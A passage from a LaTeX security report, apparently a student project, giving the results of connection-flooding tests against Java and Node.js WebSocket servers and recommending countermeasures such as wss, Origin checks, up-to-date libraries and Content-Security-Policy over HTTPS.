	will not work properly with a latency like that. We can consider it a success.\\

	The \emph{second test} is about the Node.js library; we used again \texttt{javaAtt.jar} to carry out the attack, while on the server we used \texttt{server.js}.\\
	When the server was under attack the legitimate client was not able to establish a new connection, the server reached a maxinum of 1070 connections 
	but we were unable to crash it.\\
	These results should highlight that the Java library is not very efficient because it was overwhelmed with just 58 connections.\\
	We also noted that this library sometimes drops some connections in order to make room for new ones.\\
	

	\subsection{Countermeasures}
	In order to make WebSocket more secure there are some precautions we must take into account: first of all, the usage of \texttt{wss} instead of \texttt{ws}; if the
	communication is encrypted via SSL nobody is able to read or change the communication. Of course attacks are still possible due to flaws in the SSL library or misconfiguration;
	also take in mind that the communication channel is persistent, so the overhead introduced by SSL is heavy only at the beginning and then becomes negligible~\cite{koch2013websockets}.\\
	Take in mind that even if you use SSL, you should always perform a check of the message in order to avoid code injection or similar attack.\\
	
	Even if it has some limitations, the \texttt{Origin} header is useful to avoid undesirable connection from browsers. However; always take in
	mind that if the client is not a browser it can arbitrarly set the content of the header to the one accepted by your server, so don't trust a request only because it has the proper
	value in the header.\\
	
	When you choose to develop an application that relies on WebSocket communication, be sure to use libraries that are up to date; browser vendors keep their products up to date
	but on the server side this is not so easy, there may be some implementations out of date that may be vulnerable.\\
	
	As WebSocket does not apply with the Same-Origin-Policy like Ajax it is possible that an attack introduce a WebSocket connection in your application even if it
	does not use WebSocket at all, this is possible if your application has XSS vulnerabilities.\\
	In order to mitigate this problem, the Content-Security-Policy (CSP) comes to our help, the CSP allows communications only between the browser and the hosts specified in the
	\texttt{Content-Security-Policy} header, this can avoid trivial attacks.\\
	I want to highlight that CSP is useful only if the HTTP connection is secure (HTTPS), otherwise an attacker could perform a MitM attack and add a malicious header in order to allow
	connections to his server.\\
	